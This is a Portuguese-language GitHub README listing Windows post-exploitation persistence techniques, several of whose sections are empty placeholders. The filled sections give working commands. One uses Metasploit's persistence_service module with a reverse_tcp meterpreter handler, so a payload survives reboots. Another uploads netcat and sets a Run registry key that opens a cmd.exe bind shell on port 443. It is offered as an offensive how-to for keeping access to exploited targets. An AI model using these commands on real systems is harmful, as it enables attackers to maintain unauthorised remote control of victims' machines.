 # [Awesome Windows Persistence](https://github.com/Stuuxx/awesome-persistence)

**Técnicas e táticas para manutenção de persistência em um alvo explorado.**
Eu sou o Stux e estarei constantemente atualizando este repositório com novas técnicas tanto para Windows quanto para Linux!

## Sumário
 - Persistence Service(#persistence-service)
 - Persistence Registry
 - Netcat
 - RDP
 - Schtasks
 - Schtasks-Log Events
 - WMIC
 - Wmi-Persistence
 - SharPersist

## Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**
```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)
- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;
```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)
Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.
Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)


## Persistence Registry


## Netcat

Já com o alvo explorado e com uma shell meterpreter:
- Vamos realizar o upload do netcat para algum diretório do alvo.
```bash
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```
nc1.jpg

- Após realizado o upload, iremos modificar o registro para que o Netcat seja executado.
```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e C:\windows\system32\cmd.exe'
```
nc2.jpg



## RDP

Já com o alvo explorado e com uma shell meterpreter:


## Schtasks

Já com o alvo explorado e com uma shell meterpreter:


## Schtasks - Log Events

Já com o alvo explorado e com uma shell meterpreter:


## Ficou com alguma dúvida?
Sinta-se a vontade para entrar em contato comigo através de minhas redes sociais!
 - LinkedIn : [Eduardo Maragno](https://www.linkedin.com/in/eduardo-maragno/)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux](https://medium.com/@stux)
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
